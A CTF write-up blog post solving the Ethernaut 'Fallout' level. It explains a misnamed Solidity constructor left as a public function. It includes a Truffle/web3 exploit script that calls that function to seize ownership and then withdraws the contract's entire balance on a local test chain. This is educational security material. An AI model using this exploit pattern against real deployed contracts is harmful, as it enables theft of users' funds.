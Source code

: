 Title: Solving Zeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01 10:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-fallout
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallout.

## Introduction
While in the [Introduction](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-intro/) of this series we setup the environment with Ganache-cli and Truffle, in the [second article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.zeppelin.solutions/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#constructors).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?
~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#deploying-your-first-smart-contract), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the next post we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.zeppelin.solutions/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
